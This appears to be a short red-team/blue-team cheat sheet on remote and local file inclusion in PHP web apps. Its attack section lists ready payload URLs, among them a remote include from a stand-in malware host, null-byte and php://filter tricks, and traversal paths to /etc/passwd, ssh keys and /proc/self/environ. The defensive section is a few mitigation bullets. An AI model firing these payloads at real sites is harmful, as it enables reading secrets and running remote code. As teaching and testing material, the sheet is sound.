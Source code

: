 # RedTeam

## Remote File Inclusion

*--> Attacker uploads file from external source*

1. Inject remote file from own server
    - https://example.com/login.php?user=http://malware.bad/malicious.php
2. Inject malicious script
   - https://example.com/login.php?user=malicious.php

<br />

## Local File Inclusion

*>> Attacker retrieves file that already exists on hosting server*

*>> If LFI is existing, you can see the source code interpreted by the server*

#### Tips

1. Null Byte Attack
   - https://example.com/login.php?user=../../Windows/system32/cmd.exe%00
   - %00 terminates string to avoid adherence of specific extension (e.g. .php)
2. Base64 encoded
   - ?user=php://filter/read=convert.base64-encode/resource=/etc/passwd
   - Decode the response to get target output
3. Fuzzing via Burpsuite Intruder (Directory Traversal)
4. LFI Suite:
   - [https://github.com/D35m0nd142/LFISuite](https://github.com/D35m0nd142/LFISuite)

#### Files to check while enumerating LFI
- `../../../../../../../etc/passwd`
- `../../../../../../../home/<users>/.ssh/authorized_keys`
- `../../../../../../../home/<users>/.ssh/bash_history`
- To get the username of who we’re running as: `../../../../../../../proc/self/environ`
- To see what binary is running this service: `../../../../../../../proc/self/cmdline`
- index.php / config.php / settings.php 

<br />

# BlueTeam

## Best Practice
- Input Validation (Whitelisting allowed file extensions)
- Exclude the directory separators “/” 
- Patch php version regularly
